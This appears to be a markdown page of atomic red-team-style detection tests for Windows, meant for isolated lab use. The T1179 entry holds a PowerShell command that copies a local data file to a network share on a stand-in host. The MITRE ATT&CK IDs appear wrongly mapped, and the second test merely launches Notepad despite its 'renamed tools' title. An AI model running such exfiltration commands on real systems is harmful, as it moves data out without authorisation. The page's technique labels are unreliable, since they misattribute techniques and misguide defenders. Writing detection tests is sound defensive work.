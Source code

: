 
## ✅ T1179 – Copying data to removable media or network

### Description
Simulates copying data to removable media or network to evaluate detection capability for MITRE tactic **Exfiltration**.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
powershell -c "Get-Content C:\data.txt | Out-File \\10.10.10.10\share\data.txt"
```

### Tool Used
CMD

### Expected Behavior
- Activity is logged via Sysmon or Windows Event Log
- Indicates a potential instance of copying data to removable media or network on the host

### Detection
- Alerts should be triggered by rules matching file creation or command-line patterns
- Mapped to MITRE ATT&CK: **T1179**


## ✅ T1180 – Malicious script execution using renamed tools

### Description
Simulates malicious script execution using renamed tools to evaluate detection capability for MITRE tactic **Execution**.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
powershell.exe -Command "Start-Process notepad.exe"
```

### Tool Used
CMD

### Expected Behavior
- Activity is logged via Sysmon or Windows Event Log
- Indicates a potential instance of malicious script execution using renamed tools on the host

### Detection
- Alerts should be triggered by rules matching file creation or command-line patterns
- Mapped to MITRE ATT&CK: **T1180**